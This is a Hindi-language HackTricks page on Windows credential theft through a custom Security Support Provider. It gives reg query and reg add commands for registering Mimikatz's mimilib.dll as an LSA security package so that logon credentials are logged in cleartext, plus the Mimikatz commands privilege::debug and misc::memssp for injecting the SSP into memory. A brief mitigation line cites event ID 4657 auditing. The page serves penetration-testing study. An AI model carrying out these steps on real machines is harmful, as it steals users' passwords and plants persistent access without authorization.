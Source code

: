 # Custom SSP

{{#include ../../banners/hacktricks-training.md}}

### Custom SSP

[यहाँ जानें कि SSP (Security Support Provider) क्या है।](../authentication-credentials-uac-and-efs/index.html#security-support-provider-interface-sspi)\
आप **अपना खुद का SSP** बना सकते हैं ताकि मशीन तक पहुँचने के लिए उपयोग किए गए **क्रेडेंशियल्स** को **स्पष्ट पाठ** में **कैप्चर** किया जा सके।

#### Mimilib

आप Mimikatz द्वारा प्रदान किए गए `mimilib.dll` बाइनरी का उपयोग कर सकते हैं। **यह सभी क्रेडेंशियल्स को स्पष्ट पाठ में एक फ़ाइल के अंदर लॉग करेगा।**\
dll को `C:\Windows\System32\` में डालें\
मौजूदा LSA सुरक्षा पैकेजों की एक सूची प्राप्त करें:
```bash:attacker@target
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
`mimilib.dll` को सुरक्षा समर्थन प्रदाता सूची (सुरक्षा पैकेज) में जोड़ें:
```bash
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
```
और एक रिबूट के बाद सभी क्रेडेंशियल्स `C:\Windows\System32\kiwissp.log` में स्पष्ट पाठ में पाए जा सकते हैं।

#### मेमोरी में

आप इसे सीधे मेमोरी में Mimikatz का उपयोग करके भी इंजेक्ट कर सकते हैं (ध्यान दें कि यह थोड़ा अस्थिर/काम नहीं कर सकता):
```bash
privilege::debug
misc::memssp
```
यह रिबूट को सहन नहीं करेगा।

#### शमन

इवेंट आईडी 4657 - `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages` का ऑडिट निर्माण/परिवर्तन

{{#include ../../banners/hacktricks-training.md}}
